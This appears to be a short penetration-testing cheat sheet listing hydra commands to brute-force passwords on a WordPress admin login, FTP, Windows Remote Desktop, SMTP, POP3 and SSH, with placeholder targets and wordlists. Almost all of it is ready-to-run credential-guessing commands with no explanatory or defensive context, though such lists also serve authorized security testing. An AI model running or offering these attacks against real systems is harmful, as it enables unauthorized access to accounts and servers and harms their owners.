 				brute force a Wordpress admin login
hydra -l admin -P passwords.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
 
				FTP
hydra  -l admin -P passwords.txt -vV $ip ftp

				attack Windows Remote Desktop
hydra -t 1 -V -f -l administrator -P passwords.txt rdp://$ip

				SMTP Brute Force
hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V

				POP3 Brute Force
hydra -l USERNAME -P wordlist.txt pop3://$IP -V -t 31

		 		SSH
### Bruteforce password
`hydra -l username -P wordlist.txt $IP ssh`

### Bruteforce Username and Password
`hydra -L users.txt -P passwords.txt -t 1 -u $ip ssh`